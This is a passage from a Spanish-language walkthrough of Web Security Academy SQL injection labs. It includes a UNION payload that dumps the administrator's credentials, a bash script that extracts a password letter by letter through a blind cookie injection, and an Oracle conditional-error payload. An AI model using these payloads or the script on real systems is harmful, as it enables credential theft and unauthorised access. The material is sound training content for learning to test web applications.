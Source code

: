 ahora nos falta sacar los datos del administrador
  
```http
https://acf91fd61fdb866c80560c7100da00ce.web-security-academy.net/filter
?category=Pets' union select USERNAME_SZEHOW,PASSWORD_TDJNHV from USERS_ADMDFI --
```
  
> | USERNAME_SZEHOW | PASSWORD_TDJNHV      |
> | :-------------- | -------------------- |
> | administrator   | 8qib221yweviflt6sqyr |
  
##  Blind SQL injection vulnerabilities
  
  
###  Lab11: Blind SQL injection with conditional responses
  
  
nos damos cuenta de que debemos injectar la consulta en la cookie así que nos creamos un script en bash para sacar letra por letra la contraseña de `administrator`
  
```bash
abc=$(echo {9..0} {a..z})
url="https://acd11f891f9b5cd4807e1274007b0036.web-security-academy.net/"
cookie='session=MkTPsv6qpbxMxOToys1Qo8ZfRf1m7Zm9; TrackingId=b1cP94KSXHI3etwO'
truestring="Welcome back!"
psw=""
echo -n "try "
for ((i=1;i<=20;i+=1))
do
	for j in $abc
	do
		echo -n "$j"
		curl -i -s -k -b "$cookie' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), $i, 1)='$j" $url | grep -o "$truestring" &> /dev/null
		if [ "$?" -eq 0 ] ;then
			psw=$psw$j
			echo -e "\nfound $j | pasword: $psw"
			break
		fi
  
	done
done
echo $psw
echo "finish"
```
  
Despues de ejecutarlo solo nos quedaría logearnos para resolver el laboratorio.
  
###  Lab 12: Blind SQL injection with conditional errors
  
  
Utiliza una base de datos de oracle
  
Comprobamos que nos bote error colocando la cookie de la siguiente manera
  
```sql
42bE1LpD9wjQKpT9' and (SELECT case when (1=0) then to_char(1/0) else 'a' end from dual where rownum = 1)='a
```
  